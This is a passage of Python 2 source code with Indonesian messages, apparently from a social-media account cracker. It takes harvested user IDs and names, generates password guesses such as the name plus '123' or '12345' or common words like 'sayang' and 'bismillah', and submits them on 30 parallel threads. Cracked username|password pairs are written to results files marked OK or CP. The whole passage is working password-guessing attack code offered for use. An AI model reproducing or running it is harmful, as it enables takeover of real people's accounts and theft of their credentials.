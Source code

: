                 print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)
                wrt = ' [×] %s|%s' % (user,pw)
                cp.append(wrt)
                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1


    def __pler__(self):
        yan = raw_input('\n [*] method : ')
        if yan == '':
            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);self.__pler__()
        elif yan in ('1', '01'):
            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
            with YayanGanteng(max_workers=30) as (__yayanXD__):
            	for yntks in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        bb = yntks.split('<=>')
                        xz = bb[1].split(' ')
                        if len(xz) == 1:
                            raimuuu = [
                                xz[0], xz[0]+'123', xz[0]+'1234',
                                xz[0]+'12345',
                            ]
                        elif len(xz) == 2:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                            ]
                        elif len(xz) == 3:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                                xz[2]+'123', xz[2]+'12345',
                            ]
                        elif len(xz) == 4:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                                xz[2]+'123', xz[2]+'12345',
                                xz[3]+'123', xz[3]+'12345',
                            ]
                        else:
                            raimuuu = [
                                'sayang', 'anjing',
                                'bismillah', '123456'
                            ]
                        __yayanXD__.submit(self.__api__, bb[0], raimuuu)
                    except:
                        pass

